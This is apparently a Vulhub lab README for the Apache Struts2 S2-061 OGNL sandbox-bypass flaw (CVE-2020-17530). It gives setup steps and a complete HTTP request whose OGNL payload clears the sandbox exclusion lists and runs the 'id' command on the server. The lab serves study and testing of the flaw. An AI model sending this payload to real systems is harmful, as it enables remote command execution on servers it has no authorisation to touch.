

# Struts2 S2-061 Remote Code Execution Vulnerablity (CVE-2020-17530)

[中文版本(Chinese version)](README.zh-cn.md)

In the versions prior to Struts 2.5.25, when evaluated on raw user input in tag attributes, may lead to remote code execution.

This vulnerability is the bypass of the OGNL sandbox, which enhance after S2-059.

References:

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## Setup

Start a Struts 2.5.25 server:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see a simple page. It is just a copy application of the [S2-059](https://github.com/vulhub/vulhub/tree/master/struts2/s2-059), except for the different Struts versions.

## Exploit

Send the following request to execute the `id` command:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

It can be seen that the result of the `id` command will be displayed on the page:


